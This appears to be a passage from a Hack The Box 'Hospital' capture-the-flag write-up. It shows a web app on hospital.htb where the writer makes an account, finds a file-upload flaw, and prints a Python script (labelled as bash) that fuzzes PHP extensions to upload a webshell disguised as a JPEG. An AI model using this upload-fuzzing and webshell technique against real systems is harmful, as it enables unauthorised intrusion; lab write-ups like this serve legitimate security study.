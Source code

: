 Visiting hospital.htb:8080 gives and option to create an account, click on __Make one__ http://hospital.htb:8080/login.php

![make an account](/assets/img/htb/hospital/make_an_account.png)

Initiating the creation of a new account at http://hospital.htb:8080/register.php, click on Submit after completing the required fields.

![creating account](/assets/img/htb/hospital/creating_account.png)

Proceeding to http://hospital.htb:8080/login.php, log in using the newly created account.

![login with new account](/assets/img/htb/hospital/login_new_account.png)

After successful login, the website at http://hospital.htb:8080/index.php presents the option to upload files to the server.

![upload button](/assets/img/htb/hospital/homepage_upload.png)

## File upload exploit 

After capturing and analyzing the request, it becomes apparent that the server has a file upload vulnerability related to the file extension.

![request from upload.php](/assets/img/htb/hospital/request_1.png)

A custom script was made to automate the task of fuzzing extensions on post requests directed at the 'upload.php' of the target machine, using a custom wordlist with the php extensions from [hacktricks file upload page](https://book.hacktricks.xyz/pentesting-web/file-upload#file-upload-general-methodology.). The script facilitates the automated upload of a webshell to the server, facilitating the process of identifying valid extensions and exploiting the vulnerability.

```bash
## Define the URL
url = 'http://hospital.htb:8080/upload.php'

## Define the headers
headers = {
    'Referer': 'http://hospital.htb:8080/index.php',
    'Cookie': 'PHPSESSID=k1ajocskfrc83hru642ag5p9nc',
    'Connection': 'close'
}

def fuzz_upload(wordlist,webshell,fname):
    #upload shell

    with open(webshell,'r') as file:
        shell_data = file.read()

    with open(wordlist,"r") as my_wordlist:
        for line in my_wordlist:
            ext=line.strip()
            files = {
                'image': (f'{fname}.{ext}', shell_data, 'image/jpeg')
            }

            response = requests.post(url, headers=headers, files=files)
            #print(response.text)

            if not "Error" in response.text:
                print(f"[+] Uploaded {fname}.{ext}")

if __name__ == "__main__":
    parser = argparse.ArgumentParser(description="upload fuzzing extension tool")
    parser.add_argument("-w", "--wordlist", required=True, help="File containing extensions")
```